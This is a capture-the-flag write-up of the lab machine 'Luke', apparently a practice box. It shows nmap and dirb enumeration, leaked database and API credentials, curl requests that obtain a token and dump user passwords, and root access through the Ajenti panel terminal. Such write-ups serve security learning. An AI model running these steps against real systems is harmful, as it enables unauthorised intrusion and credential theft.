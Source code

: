 ```yaml
---
layout: post
title: Luke - 10.10.10.137
difficulty: 6
author: Andrea Melis
author_twitter_name: wild_boar
author_twitter_url: https://twitter.com/wild_boar
---
```


# USER

## Reconnaissance

### NMAP

As usual we always start with **Nmap** scanning:

<pre>root@pentestbox:~# nmap -sC -sV -oA luke 10.10.10.137

Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 00:13 CEST
Nmap scan report for 10.10.10.137
Host is up (0.036s latency).
Not shown: 996 closed ports
PORT STATE SERVICE VERSION
<b>21/tcp open ftp vsftpd 3.0.3+ (ext.1)</b>
<b>22/tcp open ssh?</b>
<b>80/tcp open http</b>
<b>3000/tcp open http Node.js Express framework</b>
<b>8000/tcp open http Ajenti http control panel</b>

</pre>

It seems there is anonymoys **ftp** login, so we logged in and there is only one file
available, which download tell us:

<pre> $ cat for_Chihiro.txt
Dear Chihiro !!
As you told me that you wanted to learn Web Development and Frontend, I can
give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete
them soon because of our security policies !

Derry
</pre>

So it may look like there is an hidden website or page somewhere.
So, first of all we scanned all possible files and folder over the port 80 and 3000
which look like a website over 80 port:

![](./images/luke/port_80_luke.png)

And over port 3000 a simple node js api service:

![](./images/luke/port_3000_luke.png)

### DirBuster

With dirbuster and big.txt wordlist we found some interesting file such as:

<pre>
File found: /config.php - 200
Dir found: /css/ - 200
File found: /css/bootstrap.min.css - 200
File found: /css/scrolling-nav.css - 200File found: /css/signin.css - 200
</pre>

Where config.php retrieved us what it looks as db credentials:

<pre>
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword =
'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost,
$dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn ->
error);
</pre>

But those credentials were incorrect for the login.php and /management login
which we found with dirb.
So we start to look at the js api service. We needed to retrieve the available api
so we used dirb again over this port:

<pre>
 $dirb http://10.10.10.137:3000 -w /usr/share/wordlists/dirb/big.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Sep 20 00:37:31 2019
URL_BASE: http://10.10.10.137:3000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/Login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56)
-----------------
END_TIME: Fri Sep 20 00:40:28 2019
DOWNLOADED: 4612 - FOUND: 3
</pre>

So we have a login api and users api.
Users api needs and authenticaton token probably supplied by the /login api.
So first we tried to login we the credentials found in the config.php file.

<pre>
$ curl --header "Content-Type: application/json" \
> --request POST \
> --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' \
> http://10.10.10.137:3000/login
{"success":true,"message":"Authentication
successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2Vybm
FtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTky
NzB9.NkXilej8x5JP2MOHRz3SDkgPs3AVz4YEmtg2s_H0siY"}
</pre>

**Success!!**

The post requests give us the access token, which we can use to query the /users
api:

<pre>
$ curl -X GET -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' http://10.10.10.137:3000/users/
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},
{"ID":"4","name":"Dory","Role":"Supporter"}]
</pre>

**Perfect!** We have users now, let’s try to query one user at time:

<pre>
$ curl -X GET \
> -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' \
> http://10.10.10.137:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
bet@tester87
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
</pre>


In fact we discovered after several tries that the Derry credentials were correct
for the /management panel
And this is what looks like the management panel; we just have some files
config.php login.php which we already had:

![](./images/luke/after_login_luke.png)

But now we alse have config.json file! Which looks really interesting since
seems to be something related to ajenti page, which is the login page discovered
on port 8000:
This is what login page looks like:

![](./images/luke/ajenti_login_luke.png)

And this is otherwise what the config.json file shows on /management page:

![](./images/luke/json_luke.png)

What is immediately visible is the password field;which seems to be the admin
password for ajenti login.

<pre><b>password "KpMasng6S5EtTy9Z"</b></pre>

So Username root and password KpMasng6S5EtTy9Z:

![](./images/luke/logged_luke.png)

**Logged in!!**

# ROOT

This looks like Ajenti backend and after several google research we noticed that
there a “Terminal” options which it open a terminal with bash with the user
privileges, in our case guess what... root!!
So clicking on terminal and running a new one gave us a perfect shell with root
priv:

![](./images/luke/rooted_luke.png)


From here we can also of course create a reverse shell to our host machine but
the flag is already retrieved.


#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 
